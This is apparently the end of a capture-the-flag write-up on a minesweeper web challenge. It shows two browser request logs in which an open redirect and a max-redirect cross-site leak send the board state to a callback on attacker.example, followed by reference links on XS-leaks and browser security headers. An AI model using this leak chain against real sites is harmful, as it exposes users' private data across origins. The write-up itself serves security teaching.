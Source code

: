 ```hl_lines=17 22 23
[DEBUG] What follows is a list of all the requests which have been performed by the browser:
// ...
[DEBUG]   - 302 https://gosweeper.example/clone?cloneid=something&redirect=//attacker.example
[DEBUG]   - 200 https://attacker.example/
[DEBUG]   - 200 https://gosweeper.example/clone?cloneid=fe24ecea6cf48d9604127b1204bb24fd
[DEBUG]   - 200 https://attacker.example/persist.html
[DEBUG]   - 404 https://attacker.example/favicon.ico
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js
[DEBUG]   - 200 https://gosweeper.example/board?xray=1
[DEBUG]   - 200 https://gosweeper.example/guess
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=18&url=https%3A%2F%2Fgosweeper.example%2Fboard
// ...
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=4&url=https%3A%2F%2Fgosweeper.example%2Fboard
[DEBUG]   - 200 https://attacker.example/callback/bomb
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=3&url=https%3A%2F%2Fgosweeper.example%2Fboard
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=2&url=https%3A%2F%2Fgosweeper.example%2Fboard
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=1&url=https%3A%2F%2Fgosweeper.example%2Fboard
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=0&url=https%3A%2F%2Fgosweeper.example%2Fboard
[DEBUG]   - 302 https://gosweeper.example/board
[DEBUG]   - 200 https://attacker.example/callback/bomb
```

And here is the same thing when it is a safe spot:

```hl_lines=17 22 25
[DEBUG] What follows is a list of all the requests which have been performed by the browser:
// ...
[DEBUG]   - 302 https://gosweeper.example/clone?cloneid=something&redirect=//attacker.example
[DEBUG]   - 200 https://attacker.example/
[DEBUG]   - 200 https://gosweeper.example/clone?cloneid=fe24ecea6cf48d9604127b1204bb24fd
[DEBUG]   - 200 https://attacker.example/persist.html
[DEBUG]   - 404 https://attacker.example/favicon.ico
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js
[DEBUG]   - 200 https://gosweeper.example/board?xray=1
[DEBUG]   - 200 https://gosweeper.example/guess
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=18&url=https%3A%2F%2Fgosweeper.example%2Fboard
// ...
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=4&url=https%3A%2F%2Fgosweeper.example%2Fboard
[DEBUG]   - 200 https://attacker.example/callback/bomb
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=3&url=https%3A%2F%2Fgosweeper.example%2Fboard
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=2&url=https%3A%2F%2Fgosweeper.example%2Fboard
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=1&url=https%3A%2F%2Fgosweeper.example%2Fboard
[DEBUG]   - 302 https://xsinator.com/testcases/files/maxredirect.php?n=0&url=https%3A%2F%2Fgosweeper.example%2Fboard
[DEBUG]   - 200 https://gosweeper.example/board
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css
[DEBUG]   - 200 https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js
```

[XSLeaks]: https://xsleaks.dev
[CSP header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
[cors-header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS
[cookie-lax]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#lax
[coop-header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Opener-Policy
[corp-header]: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Resource-Policy
[max-redirects]: https://xsleaks.dev/docs/attacks/navigations/#max-redirects
[unload-event]: https://developer.mozilla.org/en-US/docs/Web/API/Window/unload_event
[window-opener]: https://developer.mozilla.org/en-US/docs/Web/API/Window/opener
[max-redirect-demo]: https://xsinator.com/testing.html#Max%20Redirect%20Leak
[Express]: https://expressjs.com/
[Mustache]: https://mustache.github.io/